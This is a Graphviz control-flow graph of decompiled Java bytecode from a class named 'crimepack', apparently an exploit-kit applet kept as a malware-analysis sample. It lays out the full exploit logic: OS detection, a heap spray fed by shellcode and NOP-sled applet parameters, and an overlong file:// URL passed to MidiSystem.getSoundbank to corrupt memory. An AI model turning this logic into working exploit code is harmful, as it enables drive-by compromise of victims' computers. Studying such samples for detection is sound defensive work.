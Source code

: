 digraph "" {
    "r0 := @this: crimepack"
    "push 47"
    "r0 := @this: crimepack"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <crimepack: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <crimepack: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <crimepack: java.lang.String repeat(char,int)>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "push \"win\""
    "load.r r2"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r2"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r2";
    "iflt load.r r2"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <crimepack: java.lang.String repeat(char,int)>";
    "staticinvoke <crimepack: java.lang.String repeat(char,int)>"->"store.r r2";
    "goto new java.lang.StringBuilder"
    "store.r r2"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"file://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"file://\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"file://\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z%Z%\"";
    "push \"Z%Z%Z%Z%Z%Z%\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"sc\""
    "load.r r0"->"push \"sc\"";
    "virtualinvoke <crimepack: java.lang.String getParameter(java.lang.String)>"
    "push \"sc\""->"virtualinvoke <crimepack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <crimepack: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"np\""
    "load.r r0"->"push \"np\"";
    "push \"np\""->"virtualinvoke <crimepack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <crimepack: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "virtualinvoke <crimepack: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <crimepack: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <crimepack: java.nio.IntBuffer[] mem>"
    "virtualinvoke <crimepack: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <crimepack: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <crimepack: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r2";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r2"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
    "iflt load.r r2"->"load.r r2";
    "push \"mac\""
    "load.r r2"->"push \"mac\"";
    "push \"mac\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r2";
    "iflt load.r r2"->"push 47";
    "push 1080"
    "push 47"->"push 1080";
    "push 1080"->"staticinvoke <crimepack: java.lang.String repeat(char,int)>";
    "staticinvoke <crimepack: java.lang.String repeat(char,int)>"->"store.r r2";
    "store.r r2"->"goto new java.lang.StringBuilder";
    "iflt load.r r2"->"load.r r2";
    "push \"nix\""
    "load.r r2"->"push \"nix\"";
    "push \"nix\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge push 47"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge push 47";
    "ifge push 47"->"load.r r2";
    "push \"nux\""
    "load.r r2"->"push \"nux\"";
    "push \"nux\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 1337"
    "push 47"->"push 1337";
    "push 1337"->"staticinvoke <crimepack: java.lang.String repeat(char,int)>";
    "staticinvoke <crimepack: java.lang.String repeat(char,int)>"->"store.r r2";
    "store.r r2"->"goto new java.lang.StringBuilder";
    "iflt return"->"return";
}
